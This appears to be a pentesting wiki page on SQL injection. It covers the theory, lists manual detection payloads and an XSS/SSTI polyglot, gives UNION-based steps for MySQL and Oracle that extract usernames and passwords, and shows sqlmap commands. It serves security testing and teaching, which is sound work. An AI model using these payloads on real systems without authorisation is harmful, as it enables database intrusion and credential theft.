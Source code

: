 # SQL injection

## Theory

Many web applications use one or multiple databases to manage data. In order to dynamically edit the database while users browse the website, some SQL queries can rely on input vectors. When input parameters used in those queries are insufficiently validated or sanitized, these web apps can be vulnerable to SQL injections.

SQL injection attacks can allow attackers to read, update, insert or delete database data by injecting a piece of SQL query through the input vector, hence affecting the intended execution of the original query. In some cases, these attacks can also lead to File Download, File Upload or even Remote Code Execution.

## Practice

Testers need to identify input vectors (parts of the app that accept content from the users) that could be used for database operations. For each identified vector, testers need to check if malicious strings and values successfully exploit any vulnerability.

### Vulnerable input recon

Using special SQL characters (`'`, `"`, `#`, `;`, `)`, `*`,`%`) in an input could lead to SQL errors sometimes echoed back to the users for debugging. This would indicate an entry point not sanitized enough and thus potentially vulnerable to SQL injection.

{% hint style="info" %}
For every payload do not forget to try url encoding or others.
{% endhint %}

### Manual testing

With `some.website/?parameter=value` some basic useful payload to detect vulnerable inputs are:

```
parameter=1
parameter=1'
parameter=1"
parameter=[1]
parameter[]=1
parameter=1`
parameter=1\
parameter=1/**/
parameter=1/*!111'*/
parameter=1' or '1'='1
parameter=1 or 1=1
parameter=' or ''='
parameter=' OR 1 -- -
parameter=1' or 1=1 --
parameter=1' or 1=1 -- -
parameter=1' or 1=1 /*
parameter='='
```

{% hint style="warning" %}
GET parameters are not the only ones that could be vulnerable to SQLi. Testers should thoroughly test all user inputs (parameters, user-agents, cookies...)
{% endhint %}

The following payload is used for testing SQL injections, [XSS (Cross-Site Scripting)](xss.md) and [SSTI (Server-Side Template Injection)](../inputs/ssti-server-side-tempate-injection.md).

```
'"<svg/onload=prompt(5);>{{7*7}}
```

#### Extracting information with UNION

{% tabs %}
{% tab title="MySQL" %}
1\. Finding number of columns:

```sql
' ORDER BY 2 -- # iterate until error to find number of columns
```

2\. Extract database information:

```sql
' UNION SELECT @@version, NULL -- # Inserting null depending on number of columns
```

3\. Find tables name:

```sql
' UNION SELECT NULL,concat(COLUMN_NAME) from information_schema.columns where table_name='users' --
```

4\. Retrieve information from table:

```sql
' UNION SELECT username,password from users --
```
{% endtab %}

{% tab title="Oracle" %}
1\. Finding number of columns:

```sql
' ORDER BY 2 -- # iterate until error to find number of columns
```

2\. Extract database information:

```sql
' UNION SELECT banner,NULL from v$version --
```

3\. Find tables name:

```sql
' UNION SELECT table_name,NULL from all_tables --
```

4\. Retrieve information from table:

```sql
' UNION SELECT username,password from users --
```
{% endtab %}
{% endtabs %}

### Automated tests

Tools like [SQLmap](https://github.com/sqlmapproject/sqlmap) (Python) or [SQLninja](https://github.com/xxgrunge/sqlninja) (Perl) can also be used to fuzz input vectors, find vulnerable entry points and automatically exploit them.

{% hint style="danger" %}
Just like any fuzzing tool, these scans need to be slowed down when testing production instances as it could lead to an unintended denial of service. In addition to that, testers need to use those tools with the greatest care since creating issues with production instances databases (like overwriting or deleting data) could have a serious fallout.
{% endhint %}

```bash
sqlmap --user-agent "PENTEST" --url $URL -p target_parameter --all
```

It is also possible to load request files and let SQLmap do the heavy work of fuzzing every parameter and input vector.

```bash
sqlmap -r $REQUEST_FILE --level 2 -v 2 --all
```

The request file should look like a standard HTTP request (line, headers, empty line, optional data). It can be obtained by many ways like inspecting network operations in a browser, intercepting requests with a proxy (like Burp Suite), and so on.

```http
POST /login.php HTTP/1.1
Host: www.target.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,fr;q=0.5,fr-FR;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 43
Cookie: JSESSIONID=F168EA13C46D14AA134E13D4;
Connection: keep-alive
Upgrade-Insecure-Requests: 1

username=testusername&password=testpassword
```

## References

{% embed url="https://www.asafety.fr/mysql-injection-cheat-sheet/" %}

{% embed url="https://owasp.org/www-community/attacks/SQL_Injection" %}

{% embed url="https://portswigger.net/web-security/sql-injection" %}

{% embed url="http://pentestmonkey.net/category/cheat-sheet/sql-injection" %}
SQL injection cheatsheets (MSSQL, MySQL, Oracle SQL, Postgres SQL, ...)
{% endembed %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection" %}

{% embed url="https://portswigger.net/web-security/sql-injection/cheat-sheet" %}

{% embed url="https://github.com/Hakumarachi/Loose-Compare-Tables" %}
